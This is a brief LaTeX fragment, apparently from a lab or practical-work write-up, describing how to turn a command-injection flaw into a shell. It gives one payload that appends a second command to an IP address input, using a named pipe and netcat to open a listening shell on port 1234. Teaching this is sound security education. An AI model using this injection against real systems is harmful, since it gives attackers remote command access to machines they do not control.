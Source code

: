\documentclass{article}
\begin{document}
\noindent It would be easier to have a bash terminal right? We can do that!
\begin{enumerate}
    \item Let’s try to open a netcat on the machine so we can directly connect to it. For that use this input \lstinline{8.8.8.8; mkfifo /tmp/pipe;sh /tmp/pipe | nc -l -p 1234 > /tmp/pipe}. \\
    
    \begin{center}
        \includegraphics[scale=0.5]{imageTP/3.png}
    \end{center}
    

\end{enumerate}
\end{document}
